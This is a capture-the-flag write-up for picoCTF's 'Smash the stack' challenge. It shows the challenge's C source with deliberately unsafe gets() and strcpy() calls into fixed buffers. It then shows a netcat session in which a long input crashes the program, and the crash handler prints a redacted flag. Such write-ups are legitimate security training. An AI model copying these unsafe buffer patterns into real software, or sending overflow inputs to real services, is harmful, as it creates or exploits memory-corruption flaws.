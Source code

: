 ## Description
Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here. And connect with it using: nc saturn.picoctf.net 64712

## Solution
We are given a binary file. let's check it:
```bash
$ ./vuln 
Input: test
The program will exit now
```

There is the source code. let's check the source too:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

the vulnerability lies here: `gets(buf1); ` 
It will get uncontrolled size of buffer `buf1`.
Ans as you can see `sigsegv_handler` will be triggered if we do this overflow. 

So if we try to write anything on memory with BOF, it will trigger `sigsegv_handler` and it will print the flag.
To get the flag. just send a long value and you will get the flag:
```bash
$ nc saturn.picoctf.net 64712
Input: asaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{XXXXXXX}
```
